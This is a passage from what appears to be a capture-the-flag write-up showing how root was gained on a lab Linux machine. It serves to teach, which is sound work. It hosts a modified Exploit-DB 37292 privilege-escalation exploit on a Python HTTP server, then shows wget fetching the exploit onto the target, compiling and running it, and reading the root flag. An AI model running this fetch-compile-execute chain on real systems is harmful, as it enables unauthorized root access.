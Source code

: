 Once we are in:

```bash
uname -a
```

- `-a`: Displays all system information that `uname` can provide

![SCREEN14](https://github.com/user-attachments/assets/8b50efa4-41aa-4073-95ef-be5b00d4370b)

### What is the root flag?

1. Run to enable sending files:

```bash
python -m SimpleHTTPServer 1337
```

2. We need to modify 143 line of the [37292](https://www.exploit-db.com/exploits/37292) to look like this

![SCREEN15](https://github.com/user-attachments/assets/ebff44ae-de90-4d99-99e6-b3e9daed0a0f)

```bash
wget <IP>:<PORT>/37292.c
```

```bash
cc 37292.c -o exploit
```

```bash
./exploit
```

```bash
cat /root/.flag.txt
```

![SCREEN16](https://github.com/user-attachments/assets/e7403cca-5bcb-4316-b043-1c312140bc51)
